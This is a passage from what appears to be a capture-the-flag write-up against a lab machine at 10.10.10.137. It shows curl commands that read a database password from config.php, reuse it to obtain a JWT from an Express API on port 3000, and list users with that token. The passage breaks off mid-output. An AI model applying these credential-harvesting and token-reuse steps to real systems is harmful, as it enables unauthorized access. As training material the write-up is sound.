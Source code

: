 Next, try to enumerate HTTP.<br>
In "config.php" on port 80, we can find a credential for DB.
{% highlight shell %}
root@kali:~# curl http://10.10.10.137/config.php
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
{% endhighlight %}

Then, try to look for the place which we can use following credential.
{% highlight shell %}
root:Zk6heYCyv6ZE9Xcg
{% endhighlight %}

On port 3000, express is running and we have an API for login possibly.
{% highlight shell %}
root@kali:~# curl http://10.10.10.137:3000/Login
"please auth"
{% endhighlight %}
{% highlight shell %}
root@kali:~# curl http://10.10.10.137:3000
{"success":false,"message":"Auth token is not supplied"}
{% endhighlight %}

By googling the error message, we can immediately find following  article.<br>
<a href="https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04if4">A guide for adding JWT token-based authentication to your single page Node.js applications</a><br>
<br>
Sounds we can use the credential with following way to get a JSON token.
{% highlight shell %}
root@kali:~# curl -X POST http://10.10.10.137:3000/login -d 'username=admin&password=Zk6heYCyv6ZE9Xcg';

{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg"}
{% endhighlight %}

We can access to other path with the JSON token achieved.
{% highlight shell %}
root@kali:~# curl http://10.10.10.137:3000 -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg'

{"message":"Welcome admin ! "}
{% endhighlight %}

"/user" returns a list of users.<br>
We can use "jq" command to make JSON easily readable.
{% highlight shell %}
root@kali:~# sudo apt-get install jq
{% endhighlight %}
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.137:3000/users -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
[
  {
    "ID": "1",
    "name": "Admin",
    "Role": "Superuser"
  },
